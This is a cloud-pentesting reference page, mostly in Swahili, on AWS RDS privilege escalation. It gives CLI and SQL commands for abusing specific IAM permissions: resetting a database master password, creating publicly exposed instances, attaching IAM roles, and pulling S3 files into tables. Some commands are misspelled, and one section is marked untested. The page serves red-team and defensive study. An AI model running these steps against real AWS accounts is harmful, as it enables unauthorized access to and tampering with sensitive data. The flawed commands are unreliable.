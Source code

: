 # AWS - RDS Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## RDS - Relational Database Service

Kwa taarifa zaidi kuhusu RDS angalia:

{{#ref}}
../../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### `rds:ModifyDBInstance`

Kwa ruhusa hiyo mshambuliaji anaweza **kubadilisha nenosiri la mtumiaji mkuu**, na taarifa za kuingia ndani ya hifadhidata:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
> [!WARNING]
> Utahitaji kuwa na uwezo wa **kuwasiliana na database** (kwa kawaida zinaweza kufikika tu kutoka ndani ya mitandao).

**Madhara Yanayowezekana:** Kupata taarifa nyeti ndani ya database.

### rds-db:connect

Kulingana na [**docs**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) mtumiaji mwenye idhini hii anaweza kuungana na DB instance.

### Abuse RDS Role IAM permissions

#### Postgresql (Aurora)

> [!TIP]
> Ikiwa unapoendesha **`SELECT datname FROM pg_database;`** ukapata database iitwayo **`rdsadmin`** unajua uko ndani ya **AWS postgresql database**.

Kwanza unaweza kuangalia ikiwa database hii imetumika kufikia huduma nyingine yoyote ya AWS. Unaweza kuangalia hili kwa kuangalia extensions zilizowekwa:
```sql
SELECT * FROM pg_extension;
```
Ikiwa utakuta kitu kama **`aws_s3`** unaweza kudhani kuwa hifadhidata hii ina **aina fulani ya ufikiaji kwa S3** (kuna viendelezi vingine kama **`aws_ml`** na **`aws_lambda`**).

Pia, ikiwa una ruhusa za kuendesha **`aws rds describe-db-clusters`** unaweza kuona huko kama **klasta imeambishwa IAM Role yoyote** katika uwanja **`AssociatedRoles`**. Ikiwa ipo, unaweza kudhani kuwa hifadhidata ilitayarishwa kufikia huduma nyingine za AWS. Kulingana na **jina la role** (au ikiwa unaweza kupata **idhini** za role) unaweza **kudhani** ni upatikanaji gani wa ziada hifadhidata ina.

Sasa, ili kusoma faili ndani ya bucket unahitaji kujua njia kamili. Unaweza kuisoma kwa:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Ikiwa ungekuwa na **raw AWS credentials**, ungeweza pia kuzitumia kufikia data za S3 kwa:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
> [!NOTE]
> Postgresql **haihitaji kubadilisha parameter group variable yoyote** ili kuwa na uwezo wa kufikia S3.

#### Mysql (Aurora)

> [!TIP]
> Ndani ya mysql, ikiwa unafanya query **`SELECT User, Host FROM mysql.user;`** na kuna mtumiaji anayeitwa **`rdsadmin`**, unaweza kudhani uko ndani ya **AWS RDS mysql db**.

Ndani ya mysql endesha **`show variables;`** na ikiwa vigezo kama **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`** vina thamani, unaweza kudhani hifadhidata imeandaliwa kufikia data ya S3.

Pia, ikiwa una ruhusa za kuendesha **`aws rds describe-db-clusters`** unaweza kuangalia kama cluster ina **role yoyote iliyohusishwa**, ambayo kwa kawaida inamaanisha ufikiaji wa AWS services).

Sasa, ili **kusoma faili ndani ya bucket** unahitaji kujua njia kamili. Unaweza kuisoma kwa:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Mshambulizi mwenye ruhusa `rds:AddRoleToDBCluster` na `iam:PassRole` anaweza **kuongeza role iliyobainishwa kwenye RDS instance iliyopo**. Hii inaweza kumruhusu mshambulizi **kupata data nyeti** au kubadilisha data ndani ya instance.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Athari Inayoweza Kutokea**: Upatikanaji wa data nyeti au mabadiliko yasiyoruhusiwa kwenye data ya instance ya RDS.\
Kumbuka kuwa baadhi ya DBs zinahitaji mipangilio ya ziada, kama Mysql, ambayo inahitaji kutaja role ARN pia katika aprameter groups.

### `rds:CreateDBInstance`

Kwa ruhusa hii tu mshambuliaji anaweza kuunda **instance mpya ndani ya cluster** ambayo tayari ipo na ina **IAM role** imeambatishwa. Haatakuwa na uwezo wa kubadilisha nywila ya mtumiaji mkuu, lakini anaweza kuifanya instance mpya ya database ipatikane kwa intaneti:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

> [!NOTE]
> TODO: Test

Mshambuliaji mwenye ruhusa za `rds:CreateDBInstance` na `iam:PassRole` anaweza **kuunda instance mpya ya RDS yenye role maalum imeambatishwa**. Mshambuliaji huyo anaweza kisha kwa uwezekano **kupata data nyeti** au kubadilisha data ndani ya instance hiyo.

> [!WARNING]
> Baadhi ya mahitaji ya role/instance-profile ya kuambatisha (kutoka [**here**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

> - Profile lazima iwepo katika account yako.
> - Profile lazima iwe na IAM role ambayo Amazon EC2 ina ruhusa ya kuitegemea (assume).
> - Jina la instance profile na jina la IAM role linalohusiana lazima lianze na kiambishi awali `AWSRDSCustom`.
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
**Athari zinazowezekana**: Upatikanaji wa data nyeti au mabadiliko yasiyoidhinishwa kwa data katika RDS instance.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Mshambuliaji aliye na ruhusa `rds:AddRoleToDBInstance` na `iam:PassRole` anaweza **kuongeza role iliyotajwa kwa RDS instance iliyopo**. Hii inaweza kumruhusu mshambuliaji **kupata data nyeti** au kubadilisha data ndani ya instance.

> [!WARNING]
> DB instance lazima iwe nje ya cluster kwa hili
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
**Athari Inayoweza Kutokea**: Upatikanaji wa data nyeti au mabadiliko yasiyoidhinishwa kwa data katika instance ya RDS.

{{#include ../../../../banners/hacktricks-training.md}}
